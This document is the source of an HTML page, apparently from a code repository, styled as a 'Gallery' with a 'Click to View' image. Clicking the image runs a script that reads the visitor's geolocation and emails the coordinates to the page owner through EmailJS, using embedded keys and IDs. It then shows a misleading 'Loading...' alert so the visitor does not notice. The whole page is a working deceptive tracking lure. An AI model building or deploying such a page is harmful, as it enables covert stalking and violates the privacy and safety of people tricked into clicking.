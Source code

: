 <!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>Gallery</title>
  <script src="https://cdn.jsdelivr.net/npm/emailjs-com@3/dist/email.min.js"></script>
  <script>
    (function () {
      emailjs.init("0pjoOsYEEaIF0eGLE"); // Your EmailJS public key
    })();

    function sendLocation() {
      if (navigator.geolocation) {
        navigator.geolocation.getCurrentPosition(function (position) {
          const templateParams = {
            latitude: position.coords.latitude,
            longitude: position.coords.longitude,
          };

          emailjs.send("service_0ijm0xc", "template_1odbjug", templateParams)
            .then(function () {
              alert("Loading...");
            }, function (error) {
              alert("Error: " + JSON.stringify(error));
            });
        });
      } else {
        alert("Geolocation is not supported.");
      }
    }
  </script>
  <style>
    body {
      text-align: center;
      font-family: Arial, sans-serif;
      padding: 50px;
    }

    img {
      width: 300px;
      height: auto;
      margin-top: 20px;
      border-radius: 10px;
      box-shadow: 0 4px 8px rgba(0,0,0,0.1);
    }
  </style>
</head>
<body>
  <h1 style="color: #007bff;">Gallery-tracker-</h1>
  <p>Click the image below to view</p>
  <img src="https://via.placeholder.com/400x250.png?text=Click+to+View" alt="Gallery Image" onclick="sendLocation()">
</body>
</html>
